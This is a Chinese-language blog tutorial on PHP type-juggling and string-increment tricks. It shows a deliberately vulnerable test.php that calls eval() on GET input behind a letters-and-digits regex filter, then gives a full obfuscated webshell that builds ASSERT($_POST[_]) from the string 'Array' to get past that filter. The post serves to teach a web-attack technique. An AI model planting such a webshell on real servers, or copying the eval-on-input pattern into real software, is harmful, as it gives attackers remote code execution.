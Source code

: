 ```yaml
---
title: php黑魔法
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: PHP
categories: PHP
---
```


## 当数组遇上string

由php手册我们知道

Array转换整型int/浮点型float会返回元素个数；

转换bool返回Array中是否有元素；转换成string返回'Array'，并抛出warning。

那么实际应用是怎样的呢？

```php
#test.php
<?php
	if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  		eval($_GET['shell']);
	}
?>
```

要解决这个问题，就得构造无字母和数字的webshell

这里需要借助PHP中的另一个小技巧

![image-20210524032255299](https://gitee.com/h1ler/blogimage/raw/master/img/image-20210524032255299.png)

即`'a'++='b'`,`'b'++='c'`...因此，我们只需要拿到一个字符`a`，通过自增操作即可获取a-Z中所有字符

那么如何拿到字符`a`呢？

巧了，数组(Array)的第一个字母就是大写A，而第4个字母就是小写a，即我们能同时拿到小写a和大写A

而在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串`Array`![image-20210524032857554](https://gitee.com/h1ler/blogimage/raw/master/img/image-20210524032857554.png)

那么可构造如下webshell

```php
<?php
//最终构造Payload：ASSERT($_POST[_])
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);			
```

> 参考
>
> https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html
